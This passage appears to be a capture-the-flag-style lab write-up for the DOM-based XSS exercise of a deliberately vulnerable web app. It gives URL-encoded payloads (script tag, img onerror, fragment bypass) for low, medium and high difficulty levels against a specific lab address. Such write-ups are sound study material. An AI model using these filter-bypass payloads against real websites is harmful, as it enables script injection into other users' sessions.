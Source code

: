 #### default有可能是个传参点

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827191016233](images/image-20250827191016233.png)



## mid

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cimg%20src=#%20onerror=alert(1)%3E
```

![image-20250827191529384](images/image-20250827191529384.png)



## high

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=Spanish#%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827191803204](images/image-20250827191803204.png)
